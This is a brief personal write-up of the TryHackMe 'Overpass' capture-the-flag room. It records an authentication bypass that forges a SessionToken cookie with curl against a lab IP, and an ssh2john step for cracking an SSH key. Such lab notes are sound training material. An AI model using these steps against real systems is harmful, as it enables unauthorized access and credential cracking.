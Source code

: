 # Overpas 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | medium 
Os | linux

**Notes :**




## Gaining Access 😉

-  breakthorugh found on source code of admin login page
   ◇ if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
    
- curl -L -b "SessionToken=letmein" 10.10.248.173/admin/
- python ssh2john.py key > h.hash



## Maintaining Access 🥷
- 


## Important commands 🔥
- `curl -L -b "SessionToken=letmein" 10.10.248.173/admin/`
- `python ssh2john.py key > h.hash`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡



--------------------------------
**By Nibras Muhammed** 🤓🖥️






